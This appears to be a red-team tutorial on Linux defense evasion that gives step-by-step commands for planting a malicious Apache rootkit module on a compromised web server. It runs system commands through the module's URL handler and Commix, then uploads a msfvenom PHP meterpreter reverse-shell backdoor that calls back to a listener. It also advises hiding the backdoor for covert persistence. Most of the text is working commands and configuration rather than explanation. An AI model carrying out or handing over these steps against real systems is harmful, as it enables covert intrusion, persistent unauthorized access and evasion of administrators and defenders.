





## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux

- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Defense Evasion Techniques

Defense Evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. Other tactics’ techniques are cross-listed here when those techniques include the added benefit of subverting defenses.

The techniques outlined under the Defense Evasion tactic provide us with a clear and methodical way of evading detection on a target system.

The following is a list of key techniques and sub techniques that we will be exploring:

- Rootkits

## Scenario

Our objective is to set up an Apache rootkit that will provide us with command injection capabilities and consequently backdoor access.

## What is a Rootkit?

A rootkit is a clandestine computer program designed to provide continued privileged access to a computer while actively hiding its presence.

Adversaries may use rootkits to hide the presence of programs, files, network connections, services, drivers, and other system components. Rootkits are programs that hide the existence of malware by intercepting/hooking and modifying operating system API calls that supply system information.

Rootkits are typically utilized as a part of the defense evasion tactic and are set up after an initial foothold has been obtained.

The type of rootkit you utilize will depend on the target configuration and your requirements.

The primary objective of a rootkit is to maintain some form of clandestine access for the attacker.

In this case, we will be setting up a rootkit in the form of an Apache module that will be used to provide us with backdoor access to the target system.

As mentioned previously, when it comes to Rootkits and backdoors, simplicity and efficiency is key. Furthermore, having an understanding of the various pieces of software installed on the target provides you with an opportunity to utilize one of these services/programs to maintain access.

Additionally, utilizing software that is installed on the target provides you with anonymity as system administrators or security analysts will find it difficult to detect any anomalies or rogue processes.

## Setting Up apache-rootkit

In this case, the Linux target that I have compromised is used by the organization to host a website. The website is built on top of the LAMP stack and as a result, Apache2 has been configured to host the website files.

We can leverage the ability to load Apache2 modules to load our own rootkit module that will provide us with the ability to perform command injection attacks on the webserver and consequently spawn a reverse shell.

Command injection vulnerabilities allow attackers to execute arbitrary commands on the target operating system.

To achieve this, we will be using the apache-rootkit module that can be found here: https://github.com/ChristianPapathanasiou/apache-rootkit

Apache-rootkit is a malicious Apache module with rootkit functionality that can be loaded into an Apache2 configuration with ease and with minimal artifacts.

The following procedures outline the process of setting up the apache-rootkit module on a target Linux system:

1. The first step in this process involves installing the Apache2 development kit, this can be done by running the following command on the target system.

        sudo apt-get install apache2-dev

    We require the Apache2 development kit in order to compile the module source code into a shared object.

    Shared objects are the Windows equivalent of DLLs, they are libraries that are loaded by programs when they are started. They are typically used by programs to extend functionality.

1. Before we clone the apache-rootkit repository, we will need to navigate to the temporary directory on the target system. This can be done by running the following command:

        cd /tmp

1. The next step will involve cloning the apache-rootkit repository on to the target system, this can be done by running the following command:

        git clone https://github.com/ChristianPapathanasiou/apache-rootkit.git

1. After cloning the repository you will need to navigate to the “apache-rootkit” directory:

        cd apache-rootkit

1. We can now compile the module by running the following command:

        apxs -c -i mod_authg.c

    As shown in the following screenshot, this will compile the module and copy over the module to the /usr/lib/apache2/modules directory.

    

1. The next step will involve loading the “mod_authg.so” module in the Apache2 configuration file, this can be done by running the following command:

        vim /etc/apache2/apache2.conf

1. After which, you will need to add the following configuration at the top of the file to load the module correctly:

    
LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so
<Location /authg>
SetHandler authg
</Location>


1. After adding the aforementioned configuration, you will need to save the file.

1. After loading the “mod_authg.so” module, you will need to restart the apache2 service, this can be done by running the following command:

        sudo systemctl restart apache2

    If you have followed the steps correctly, you shouldn’t receive any errors from systemd.

### Testing apache-rootkit

Now that we have compiled and loaded the apache-rootkit module, we can test the module by performing some command injection techniques.

1. You can perform command injection on the apache2 server by opening the following URL in your browser:

        http://<SERVER-IP>/authg?c=whoami

    This URL accesses the apache-rootkit module handler called “authg” and attempts to pass a system command for execution.

1. If the apache-rootkit module works, you should receive the output of the command we specified as highlighted in the following screenshot.

    

    Now that we have verified that the module is active and functional, we can utilize it to set up a PHP backdoor that will provide us with a meterpreter session whenever executed.

## Exploiting Command Injection with Commix

Commix (short for `[comm]and` `[i]njection` `e[x]ploiter`) is a security testing tool that can be used by web developers, penetration testers, or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in the Python programming language.

GitHub Repository: https://github.com/commixproject/commix

We can utilize Commix in conjunction with the apache-rootkit to execute arbitrary commands on the target system. This can be done by leveraging the inbuilt pseudo shell provided by Commix.

1. The first step in this process involves installing Commix on Kali Linux, this can be done y running the following command:

        sudo apt-get install commix -y

1. After you have installed commix, you can test the target site for command injection vulnerabilities with Commix by running the following command:

        commix -u http://<SERVER-IP>/authg?c=whoami

    Commix will test the URL provided for any command injection vulnerabilities, in this case, it will detect a command injection vulnerability and will ask you whether you want a pseudo-terminal shell as shown in the following screenshot.

    

1. In this case, we will say yes, after which Commix will provide you with the pseudo shell that you can use to execute arbitrary commands as shown in the following screenshot.

    

    This can be very useful during red team engagements as you can easily execute commands on the target system covertly.

## Uploading a PHP Backdoor with Commix

Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor with Commix that we can then use to gain access to the target system whenever required.

1. The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

        msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.21 LPORT=1234 -e php/base64 -f raw > shell.php

1. Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

    

1. We can now set up the listener with Metasploit  by running the following commands:

        msfconsole
        use multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST <KALI-IP>
        set LPORT <PORT>
        run

1. The next step will involve uploading the PHP shell that we just generated to the web server, this can be done with Commix by running the following command:

        commix -u http://<SERVER-IP>/authg?c=id --file-write='/home/kali/Desktop/shell.php' --file-dest='/var/www/html/shell.php

1. In this case, we will be uploading the “shell.php” file to the root of the web server, it is recommended, however, to upload it to a directory that is not frequently accessed.

    If the “shell.php” file is uploaded successfully, you should receive a message similar to the one shown in the screenshot below.

    

1. We can retrieve a meterpreter session on the target by navigating to the “shell.php” file on the web server by accessing the following URL with your browser:

        http://<SERVER-IP>/shell.php

    Accessing the through the browser should execute the PHP code and consequently provide you with a meterpreter session on your listener as shown in the following screenshot.

    

    We have been able to successfully set up the apache-rootkit module and leverage the command injection functionality afforded by the module to execute arbitrary commands on the target system as well as upload a PHP backdoor that will provide you with a meterpreter session.